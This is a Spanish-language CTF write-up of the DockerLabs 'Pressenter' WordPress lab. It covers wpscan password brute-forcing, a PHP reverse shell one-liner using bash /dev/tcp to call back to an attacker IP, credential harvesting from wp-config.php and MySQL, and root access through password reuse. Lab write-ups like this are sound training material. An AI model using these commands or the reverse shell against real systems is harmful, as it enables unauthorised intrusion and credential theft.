

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/pressenter/index.html · generator: mkdocs

# Pressenter

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
En la web vemos que tanto el login como la iniciación del CTF no hacen nada, pero encontramos un about us en el pie de página de la web de registro:
*Find us at pressenter.hl*
Necesitaremos añadir *presenter.hl* al /etc/hosts
Vemos que se trata de un **Wordpress**

Con Gobuster no encontramos nada, asique sacaremos. Pero vemos que si hacemos el gobuster a http://pressenter.hl/, encuentra cosas de wp:
`gobuster dir -u pressenter.hl -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt`

![](../../assets/img/Pasted_image_20251012181313.png)

En la página de /wp-login podemos ver que el usuario pressi sí que existe y NO el de echo

En un texto publicado en la web podemos ver dos usuarios posibles, **pressi** y **echo**
Usamos cupp y wpscan para intentar encontrar una contraseña para ambos
`wpscan --url http://pressenter.hl -U pressi --passwords pressi.txt`
`wpscan --url http://pressenter.hl -U echo --passwords echo.txt`
Descubrimos una versión de wordpress 6.6.1 -> podemos buscar vulnerabilidades
NO encontramos contraseña válida para pressi

Probamos en lugar de para un passlist con cupp, con rockyou
**dumbass** ✔

Encontramos un usuario **hacker** dentro del portal de administracion, pero no es adminsitrador asique no creo que sea relevante

En apartado de Plugins podemos instalar el "administrador de archivos WP" buscando por file, instalándolo y activándolo

Subimos archivo sh3ll.php con la revshell dentro en php
`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`
**www-data**

## Escalada

Buscamos en directorio -> nada
Buscamos en sudo -l -> nada
Buscamos en -perm -4000 -> nada
Buscamos en procesos -> nada excepto que vemos que existe un usuario mysql
Buscamos en /var/www/pressenter y vemos archivo característico de wordpress **wp-config.php**
Encontramos credenciales:

![](../../assets/img/Pasted_image_20251012193300.png)

Nos conectamos al servicio mysql
`mysql -h localhost -u admin -p`
**mysql**

`show databases;`
`use wordpress`
`show tables;`
Vemos un *wp_users* y un *wp_usernames*
`select * from wp_usernames;`
Obtenemos un usuario:contraseña:
**enter: kernellinuxhack**

Accemos
`su enter`
**enter**

En escritorio de enter encontramos un user.txt que contiene:
4a05a7bc45edb56b1f033ca1606e176c

- *(ALL : ALL) NOPASSWD: /usr/bin/cat*
(ALL : ALL) NOPASSWD: /usr/bin/whoami
Probamos a acceder a root con la misma pswd que en enter
**root**
